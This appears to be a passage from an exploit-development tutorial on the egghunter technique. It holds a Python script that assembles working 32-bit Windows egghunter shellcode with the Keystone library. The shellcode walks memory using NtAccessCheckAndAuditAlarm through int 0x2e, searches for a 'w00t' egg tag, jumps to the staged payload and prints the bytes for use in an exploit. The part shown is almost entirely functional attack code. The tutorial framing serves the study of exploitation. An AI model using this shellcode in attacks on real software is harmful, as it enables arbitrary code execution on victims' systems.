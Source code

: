 Now that we have a basic understanding of what mechanisms the egghunter technique abuses, let’s examine the code below and find out how to implement it:
```python
from keystone import *  
CODE = (  
 # We use the edx register as a memory page counter  
" "  
" loop_inc_page: "  
 # Go to the last address in the memory page  
" or dx, 0x0fff ;"  
" loop_inc_one: "  
 # Increase the memory counter by one  
" inc edx ;"  
" loop_check: "  
 # Save the edx register which holds our memory  
 # address on the stack
 " push edx ;"  
 # Push the system call number  
" push 0x2 ;"  
 # Initialize the call to NtAccessCheckAndAuditAlarm  
" pop eax ;"  
 # Perform the system call  
" int 0x2e ;"  
 # Check for access violation, 0xc0000005  
 # (ACCESS_VIOLATION)
 " cmp al,05 ;"  
 # Restore the edx register to check later  
 # for our egg
 " pop edx ;"  
" loop_check_valid: "  
 # If access violation encountered, go to next page
 " je loop_inc_page ;"  
" is_egg: "  
 # Load egg (w00t in this example) into  
 # the eax register
 " mov eax, 0x74303077 ;"  
 # Initializes pointer with current checked  
 # address
 " mov edi, edx ;"  
 # Compare eax with doubleword at edi and  
 # set status flags
 " scasd ;"  
 # No match, we will increase our memory  
 # counter by one
 " jnz loop_inc_one ;"  
 # First part of the egg detected, check for  
 # the second part
 " scasd ;"  
 # No match, we found just a location  
 # with half an egg
 " jnz loop_inc_one ;"  
" matched: "  
 # The edi register points to the first  
 # byte of our buffer, we can jump to it
 " jmp edi ;"  
)  
# Initialize engine in 32bit mode  
ks = Ks(KS_ARCH_X86, KS_MODE_32)  
encoding, count = ks.asm(CODE)  
egghunter = ""  
for dec in encoding:  
 egghunter += "\\x{0:02x}".format(int(dec)).rstrip("\n")  
  
print("egghunter = (\"" + egghunter + "\")")
```
